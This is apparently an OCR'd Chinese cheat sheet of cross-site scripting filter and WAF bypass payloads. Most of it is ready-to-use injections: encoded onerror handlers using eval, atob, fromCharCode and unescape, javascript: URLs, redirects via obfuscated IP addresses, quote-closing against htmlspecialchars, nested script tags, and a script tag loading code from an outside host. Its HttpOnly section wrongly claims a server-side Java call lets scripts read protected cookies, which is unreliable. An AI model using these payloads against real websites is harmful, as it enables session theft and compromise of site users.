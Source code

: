 ```
双写绕过
字符串拼接绕过（利用eval()函数）
在js中用反引号代替单双引号
编码绕过
	Unicode编码绕过
	<img src="x" onerror="&#97;">
	javasc&#x72;&#x69;pt:alert(/xss/)          (编码了r和i)
	<img src="x" onerror="eval('\u0061')">
	url编码绕过
	<img src="x" onerror="eval(unescape('%61'))">
	<iframe src="data:text/html,%3C"></iframe>
	Ascii码绕过
	<img src="x" onerror="eval(String.fromCharCode(97,108))">
	hex绕过
	<img src=x onerror=eval('\x61')>
	base64绕过
	<img src="x" onerror="eval(atob('XXXXX=='))">
	<iframe src="data:text/html;base64,XXXXX==">

【过滤url地址】
使用url编码
	<img src="x" onerror=document.location=`http://%77/`>
	javasc&#x72;&#x69;pt:alert('xsshttp://')
使用IP
	十进制IP
	<img src="x" onerror=document.location=`http://2130706433/`>
	八进制IP
	<img src="x" onerror=document.location=`http://0177.0.0.01/`>
	十六进制IP
	<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
	html标签中用//代替http://
	<img src="x" onerror=document.location=`//www.baidu.com`>
	使用\\
    使用中文逗号代替英文逗号
	<img src="x" onerror="document.location=`http:\\www。baidu。com`">

【单引号闭合+htmlspecialchars函数绕过】
'onmouseover='alert(/xss/)

【JavaScript伪协议】
"><a href=javascript:alert(/xss/)>                  o_n和<scr_ipt>过滤

【HttpOnly绕过】
什么是HttpOnly？
cookie中设置了HttpOnly属性后js脚本将无法读取到cookie信息
但是使用下面这样仍然可以读取
Cookie cookies[]=request.getCookies();

【其它waf绕过思路】
（1）标签语法替换
<scr<script>ipt>alert("XSS")</scr<script>ipt>
<script src="http://xxx/"></script>
（2）特殊符号干扰
（3）提交方式更改
（4）垃圾数据溢出
（5）加密解密算法
（6）结合其他漏洞绕过

```
